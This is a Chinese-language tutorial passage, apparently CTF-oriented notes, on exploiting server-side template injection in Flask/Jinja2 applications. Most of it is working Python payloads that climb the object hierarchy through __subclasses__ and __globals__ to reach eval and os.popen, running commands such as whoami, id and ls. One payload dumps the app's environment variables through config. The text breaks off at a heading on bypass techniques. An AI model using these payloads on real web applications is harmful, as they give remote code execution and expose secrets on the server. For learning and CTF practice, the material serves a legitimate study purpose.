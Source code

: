 

命令执行：


```plain
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
Plain Text
```



```plain
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')
Plain Text
```



```plain
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
Plain Text
```



```plain
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')
Plain Text
```



总的来说：


首先就是判断，是否存在ssti模板注入点


确定找到注入点之后，由于flask等ssti模板都是由python编写，我们又可以在上面执行代码，于是就能够在ssti上查找框架中所包含的类


找到某个类之后继续调用，找到子类，父类等


最后通过找到的类中可能包含的函数os.。。。。在服务器端执行代码即可。


```plain
.__class__.__mro__//找基类
.__class__.__mro__[0].__subclasses__()//基类中的子类
{{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__}}//.init.globals来找os类下的，init初始化类，然后globals全局来查找所有的方法及变量及参数。
.__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()//基类中的子类中的某个函数，执行并且调用。
{{config.__class__.__init__.__globals__['os'].environ}}这个是关于配置文件的，有时候FLAG也会放在配置文件之中。
Plain Text
```



## 绕过姿势

